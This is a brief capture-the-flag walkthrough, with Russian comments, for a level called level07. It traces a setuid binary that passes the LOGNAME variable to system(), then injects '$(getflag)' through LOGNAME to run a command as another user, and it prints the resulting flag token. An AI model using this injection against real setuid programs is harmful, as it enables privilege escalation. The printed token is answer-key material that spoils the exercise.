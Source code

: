 ```
ls -l
```
> total 12\
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07

```
ltrace ./level07
```
> __libc_start_main(0x8048514, 1, 0xbffff7b4, 0x80485b0, 0x8048620 <unfinished ...>\
getegid()                                                                                                     = 2007\
geteuid()                                                                                                     = 2007\
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
getenv("LOGNAME")                                                                                             = "level07" <------ Видно что тут берется переменная из LOGNAME\
asprintf(0xbffff704, 0x8048688, 0xbfffff33, 0xb7e5ee55, 0xb7fed280)                                           = 18\
system("/bin/echo level07 "level07\
 <unfinished ...>\
--- SIGCHLD (Child exited) ---\
<... system resumed> )                                                                                        = \
+++ exited (status 0) +++

Пробуем ее подменить
```
export LOGNAME=ls;
./level07
```
> ls

Пробуем подменить ее на код, который выполнится

```
export LOGNAME=$(ls -l);
./level07
```
> total 12\
sh: 2: -rwsr-sr-x: not found

Код выполняется, а значит даем ему getflag

```
export LOGNAME=$(getflag)
./level07
```
> Check flag.Here is your token :\
sh: 2: Syntax error: ")" unexpected

```
export LOGNAME='$(getflag)'
./level07
```
> Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
